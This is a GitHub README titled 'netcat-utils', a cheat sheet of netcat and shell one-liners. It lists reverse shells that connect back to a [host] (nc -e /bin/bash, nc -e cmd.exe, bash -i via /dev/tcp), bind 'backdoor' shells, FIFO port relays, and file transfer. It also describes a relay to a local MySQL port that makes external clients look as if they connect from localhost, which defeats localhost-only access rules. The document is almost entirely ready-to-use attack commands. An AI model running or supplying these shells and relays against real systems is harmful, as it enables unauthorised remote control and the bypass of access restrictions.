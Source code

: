 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.



### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.
```
nc -lv -p [port]
```




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```




### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```




### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -p [port] -e /bin/bash
nc -l -p [port] -e /bin/sh
nc -l -p [port] -e cmd.exe
```




### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```




### Create FIFO ###
First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```




### Relay / Port Redirection ###
Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.
Target: `nc -l -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`
Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`
Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.

FIFO's can also be used to connect to shells.
```
nc -l -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```




### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

